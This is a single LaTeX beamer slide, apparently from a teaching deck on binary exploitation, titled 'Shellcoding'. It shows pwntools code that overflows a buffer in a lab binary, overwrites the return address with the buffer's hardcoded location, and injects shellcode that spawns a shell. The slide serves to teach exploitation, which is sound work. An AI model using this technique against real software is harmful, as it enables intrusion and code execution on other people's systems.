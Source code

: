 \documentclass[aspectratio=169]{beamer}
\begin{document}
\begin{frame}[fragile]
    \frametitle{Shellcoding}
    \begin{itemize}
        \item now vuln is being executed again, however now we know buffer location and stack is RWX!
        \item buffer overflow, but use it to immediately jump to our buffer!
        \item fill rest of buffer contents with shellcode:
    \end{itemize}
    \begin{codebox}{python}
shellcode = 0x402250 # location of our buffer

io.sendline(fit({
    0: b"0\0",
    offset: shellcode, # overwrite rip with shellcode location
    offset + 8: asm(shellcraft.sh()) # shellcode for getting a shell
}))\end{codebox}
\end{frame}
\end{document}
